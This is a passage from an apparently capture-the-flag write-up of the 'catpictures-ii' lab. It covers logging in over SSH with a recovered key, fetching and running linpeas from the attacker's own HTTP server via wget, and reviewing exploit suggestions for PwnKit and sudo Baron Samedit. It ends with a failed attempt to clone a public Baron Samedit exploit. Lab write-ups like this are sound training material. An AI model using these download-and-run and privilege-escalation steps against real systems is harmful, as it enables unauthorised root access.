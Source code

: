 Copy paste into your system and do something like
```shell-session
$ chmod 600 id_rsa
## Log back in:
$ ssh bismuth@10.10.51.5 -i id_rsa
...
bismuth@catpictures-ii:~$ 
```

## Privilege escalation

Let's get `linpeas` for the enumeration so we can find some vector for privesc:
```shell-session
## On our machine:
$ python3 -m http.server 8000

## On target ssh session:
bismuth@catpictures-ii:~$ wget http://10.11.5.201:8000/linpeas.sh
bismuth@catpictures-ii:~$ sh linpeas.sh
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
```

So the target has a vulnerable version of `sudo`. Let's exploit that:
```shell-session
bismuth@catpictures-ii:~$ mkdir temp && cd temp
bismuth@catpictures-ii:~/temp$ git clone https://github.com/blasty/CVE-2021-3156.git
Cloning into 'CVE-2021-3156'...
FAILED
```
